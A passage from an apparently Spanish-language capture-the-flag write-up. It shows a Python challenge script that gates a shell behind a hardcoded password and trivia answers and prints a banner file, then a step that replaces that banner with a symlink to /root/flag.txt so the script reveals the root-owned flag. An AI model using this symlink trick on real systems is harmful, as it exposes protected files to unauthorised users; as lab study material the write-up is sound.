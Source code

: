 ```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```


5. Eliminamos el banner y creamos un enlace que apunte a flag.txt 
```
player@challenge:~$ rm /home/player/banner
rm /home/player/banner

player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner

player@challenge:~$ ^C
```
